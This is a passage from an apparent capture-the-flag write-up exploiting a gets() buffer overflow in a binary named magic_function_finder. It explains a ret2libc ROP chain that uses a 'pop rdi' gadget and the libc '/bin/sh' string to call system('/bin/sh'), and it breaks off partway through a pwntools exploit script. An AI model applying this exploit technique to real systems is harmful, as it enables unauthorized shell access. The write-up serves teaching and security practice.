 ```
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
1b75aa /bin/sh
```

For the system to recognize this "/bin/sh" string as a parameter we need to set the `rdi` register to it.
We need a way to write the string "/bin/sh" into the `rdi` register. This would be done via the instruction `pop rdi`.
To achieve our goals we need to find a place in the code were `pop rdi` is executed and immediately followed by a return 
so that we can jump there, write "/bin/sh" into the `rdi` register and then execute return with our manipulated 
`return pointer` to execute `system`. In exploit development such useful instructions followed by a return are called
"Gadgets" and there are tools available to help us find gadgets that we can use. We are going to use `ROPGadget`.

```
ROPgadget --binary magic_function_finder | grep "pop rdi"
0x0000000000401403 : pop rdi ; ret
```

Now we have all the information we need to execute `system("/bin/sh")` on a second buffer overflow.

# Misfortunes never come singly

To use all the information we gathered a second buffer overflow is required. Luckily, when entering `printf_finder`
we are prompted for input which will again be read using `gets()`. For this second buffer overflow we can reuse the 
padding of the first payload because the the buffer is of the same size as the first one (known from the source-code 
visible on the webiste). After the padding we follow up with a ROP-Chain, first is the `pop rdi` gadget followed by
the address of "/bin/sh", this way the string "/bin/sh" is written into the `rdi` register. At the end of our payload 
is the address of `system`, we jump to this address once the return after `pop rdi` is triggered. 
We are now able to develop the entire exploit. We format all the new information properly and wait for the second time 
the server asks for our input, then we send our second payload consisting of padding and the full ROP-Chain.

# The Exploit

```
from pwn import *

p = remote("localhost", 1024)

# Step 1, receive the address of find_printf
p.recvuntil("implemented at: ")
addr_of_find_printf = p.recvuntil("\n")
addr_of_find_printf = str(addr_of_find_printf).split("\\")[0]
addr_of_find_printf = str(addr_of_find_printf).split("'")[1]
print(f"found find_printf at: {addr_of_find_printf}")
p.recvuntil("feedback:")

# Step 2, Buffer Overflow -> calling printf_finder
addr_of_find_printf = int(addr_of_find_printf, 16)
padding = b"A" * 64
padding_rbp = b"B" * 4 + b"C" * 4
addr_of_find_printf = p64(addr_of_find_printf)
print(addr_of_find_printf)
```